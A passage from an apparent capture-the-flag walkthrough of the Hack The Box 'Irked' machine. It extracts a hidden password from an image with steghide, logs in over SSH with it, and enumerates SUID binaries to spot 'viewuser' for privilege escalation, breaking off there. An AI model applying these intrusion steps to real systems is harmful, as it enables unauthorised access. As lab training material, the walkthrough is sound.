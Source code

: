 ```bash
kali@kali:~/Desktop/htb/irked$ steghide --extract --stegofile ./irked.jpg -p UPupDOWNdownLRlrBAbaSSss
wrote extracted data to "pass.txt".
kali@kali:~/Desktop/htb/irked$ cat pass.txt
Kab6h+m+bbp2J:HG
```

We can try sshing into the box using this password.

```bash
kali@kali:~/Desktop/htb/irked$ ssh djmardov@irked.htb
djmardov@irked.htb's password:

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Sep  1 07:33:13 2020 from 10.10.14.21
djmardov@irked:~$ id
uid=1000(djmardov) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
djmardov@irked:~$
```

## Root Shell

Looking at files with `suid` bit, we can see an unusual binary name `viewuser`

```bash
djmardov@irked:~$ find / -perm /4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/sbin/exim4
/usr/sbin/pppd
/usr/bin/chsh
/usr/bin/procmail
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/pkexec
/usr/bin/X
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/viewuser
/sbin/mount.nfs
/bin/su
/bin/mount
/bin/fusermount
/bin/ntfs-3g
/bin/umount
djmardov@irked:~$
```
